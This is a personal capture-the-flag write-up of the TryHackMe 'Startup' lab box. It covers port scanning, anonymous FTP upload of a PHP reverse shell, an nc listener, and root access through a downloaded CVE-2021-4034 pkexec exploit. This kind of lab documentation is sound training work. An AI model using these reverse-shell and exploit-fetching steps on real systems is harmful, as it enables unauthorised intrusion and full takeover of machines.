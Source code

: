 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/startup/","tags":["CTF","write-up"]}
---
```


![Pasted image 20240926192837.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240926192837.png)
Abuse traditional vulnerabilities via untraditional means.
**We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

---
# Active reconnaisance
## Enum ports and services
Running a general scan
```shell
sudo nmap 10.10.100.226 -sS -n -p- --min-rate 5000 -vvv -Pn --open
```

```c
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

---
# Vuln analisis
Running a focused scan
```shell
sudo nmap 10.10.100.226 -sCV -p 21,22,80
```

## Port 22
```c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
```
From launchpad probabbly Ubuntu Xenial Xerus 16.04
![Pasted image 20240927085755.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927085755.png)

## Port 21
```c
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.6.2.59
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```
### Download the files
Connecting, set the name `ftp` or `anonymous` and the password empty.
```shell
ftp IP
ftp
```
Now we see the files.
![Pasted image 20240927215100.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927215100.png)

To download them.
```shell
get filename.txt
```
## Port 80
```c
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
### Fuzzing
```shell
wfuzz -c -t 10 --hc=404,403 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://startup.thm/files/FUZZ
```
After fuzz we foudn only the `files ` subdirectory
![Pasted image 20240927152857.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927152857.png)
And the ftp folder it's empty.

---
# Exploitation
## Port 21 write access
Test if we can write into the ftp folder.
We can't write into the main folder but we can do it into `ftp` folder.
![Pasted image 20240927153044.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927153044.png)
## Port 80
We create an reveseshell using https://www.revshells.com/ PHP PentestMonkey
And put that file.

Set the listener on the attacker machine
```shell
rlwrap nc -lnvp 4747
```
And go to the file in the browser. http://startup.thm/files/ftp/rev_shell_1.php
And we have the shell.
![Pasted image 20240927153415.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927153415.png)
Get a better shell
```python
python -c  'import pty;pty;spawn("/bin/bash")'
```

> [!check] What is the secret spicy soup recipe?
![Pasted image 20240927155826.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927155826.png)

---
# Privilege Escalation
Check the [[Operative System/Linux/Permisos/SUID\|SUID]] files.
![Pasted image 20240927171405.png|600](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171405.png)
## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



> [!cite] NIST-CVE-2021-4034
> A local privilege escalation vulnerability was found on polkit's **pkexec** utility. The pkexec application is a **setuid** tool designed to allow unprivileged users to **run commands as privileged users** according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

We have `pkexec`with SUID the bit enabled.
The exploit https://github.com/Almorabea/pkexec-exploit
```shell
wget https://raw.githubusercontent.com/Almorabea/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```
Or the code [[CVE-2021-4034-exploit\|CVE-2021-4034-exploit]]

And transfer to the victim machine

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



# Transfer files
On the folder that contain the file to send **on the source machine.** E.g. `file.txt`
```python
python -m http.server 4545
```

On the destination machine
```shell
wget http://IP_SOURCE_MACHINE:4545/file.txt
```

</div></div>


Run the exploit
```shell
python3 CVE-2021-4034.py
```


</div></div>

We have the root shell
![Pasted image 20240927161322.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927161322.png)

> [!check] user.txt
> ![Pasted image 20240927171747.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171747.png)


> [!check] root.txt
> ![Pasted image 20240927171845.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171845.png)



---
